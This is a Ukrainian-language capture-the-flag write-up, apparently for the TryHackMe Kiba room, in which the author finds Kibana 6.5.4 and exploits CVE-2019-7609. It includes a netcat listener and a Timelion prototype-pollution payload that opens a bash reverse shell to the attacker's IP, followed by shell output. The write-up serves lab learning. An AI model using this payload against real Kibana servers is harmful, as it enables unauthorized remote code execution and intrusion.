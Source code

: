
На 80 порту в нас веб сторінка, яка дає наступну картину:

<img src="https://i.ibb.co/fpSM0T5/80.png" alt="drawing" width="650"/>\
Єдине, що ми тут можемо побачити, так це таку штуку, як "Linux Capabilities". Що це?

```
Linux capabilities розбивають привілеї root на менші, відокремлені
одиниці, що дозволяє процесам мати підмножину привілеїв. Це мінімізує ризики,
не надаючи повних привілеїв root, де це непотрібно.
```
Нє, ну кайф звісно, а нафіга воно нам? Хоча, може, потім знадобиться...

**Dirbuster** нічого не знайшов, тому є сенс переходити до порту 5601.

<img src="https://i.ibb.co/Sv0LGDd/5601.png" alt="drawing" width="650"/>

О О О! А це вже шось цікаве! Це ж Кібана!
```
Kibana – це інструмент візуального інтерфейсу, який дозволяє досліджувати,
візуалізувати та створювати інформаційну панель над даними журналу, 
зібраними у кластерах Elasticsearch. 
```
У вкладці `Management` можна знайти версію, яку треба ввести у питання TryHackMe - `6.5.4`.

Знаючи версію Кібана можна пошукати, чи є на неї якісь вразливості.
Так! Просто пошукавши в інтернеті, ми знаходимо репозитрію у гітхабі з усім необхідним.
https://github.com/mpgn/CVE-2019-7609

Відповідаємо на питання з приводу вразливості застосунку - `CVE-2019-7609`.

## Ламаємо!
Заздалегідь відкриваємо слушалку на NetCat:
```shell
nc -lvnp 6666
```
Першим ділом запускаємо 
Заходимо у вкладку `Timeleon`, де вставляємо у візуалізатор наступний код(не забудьте вставити там свій айпішнік):
```console
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -c \'bash -i>& /dev/tcp/<IP Атакуючої Машини>/6666 0>&1\'");//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```
Після чого нажимаємо **Run**, чекаємо поки догрузить і клікаємо на `Canvas`, все показано на скріні нижче:\
<img src="https://i.ibb.co/yP5fShc/image.png" alt="drawing" width="650"/>\
Може не з першого разу вийти. Я кілька разів перезапускав машину:( 

І ось, ми отримуємо доступ до консолі!

```
kiba@ubuntu:/home/kiba/kibana/bin$ 
```

Тут же ми і читаємо `user.txt`:
```console
kiba@ubuntu:/home/kiba/kibana/bin$ cd ../..
kiba@ubuntu:/home/kiba$ ls
elasticsearch-6.5.4.deb
kibana
user.txt
kiba@ubuntu:/home/kiba$ cat user.txt
Тут типу флаг
```
